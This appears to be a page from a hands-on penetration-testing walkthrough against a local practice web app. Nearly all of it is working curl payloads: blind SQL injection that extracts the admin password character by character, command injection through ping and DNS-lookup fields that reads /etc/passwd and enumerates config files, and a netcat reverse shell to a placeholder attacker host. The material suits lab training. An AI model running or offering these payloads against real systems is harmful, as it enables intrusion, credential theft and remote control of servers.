 #### 2.3 Boolean-based Blind SQL Injection
```bash
# Test for admin user
curl -G http://localhost:5000/shop \
  --data-urlencode "search=' AND (SELECT COUNT(*) FROM users WHERE username='admin')=1-- "

# Extract password character by character
curl -G http://localhost:5000/shop \
  --data-urlencode "search=' AND (SELECT SUBSTR(password,1,1) FROM users WHERE username='admin')='a'-- "
```

### Phase 3: Command Injection Testing

#### 3.1 Basic Command Injection
**Target**: `/tools/ping` endpoint

```bash
# Basic command injection
curl -X POST http://localhost:5000/tools/ping \
  -d "host=127.0.0.1; whoami&count=1"

# Command chaining
curl -X POST http://localhost:5000/tools/ping \
  -d "host=127.0.0.1 && cat /etc/passwd&count=1"

# Command substitution
curl -X POST http://localhost:5000/tools/ping \
  -d "host=\$(whoami)&count=1"
```

#### 3.2 DNS Lookup Command Injection
**Target**: `/tools/lookup` endpoint

```bash
# Inject commands via domain parameter
curl -X POST http://localhost:5000/tools/lookup \
  -d "domain=google.com; ls -la&type=A"

# Multiple command execution
curl -X POST http://localhost:5000/tools/lookup \
  -d "domain=test.com && id && uname -a&type=A"
```

#### 3.3 Advanced Command Injection
```bash
# Reverse shell attempt (for educational purposes)
curl -X POST http://localhost:5000/tools/ping \
  -d "host=127.0.0.1; nc -e /bin/bash attacker_ip 4444&count=1"

# File system exploration
curl -X POST http://localhost:5000/tools/ping \
  -d "host=127.0.0.1; find / -name '*.conf' 2>/dev/null&count=1"
```
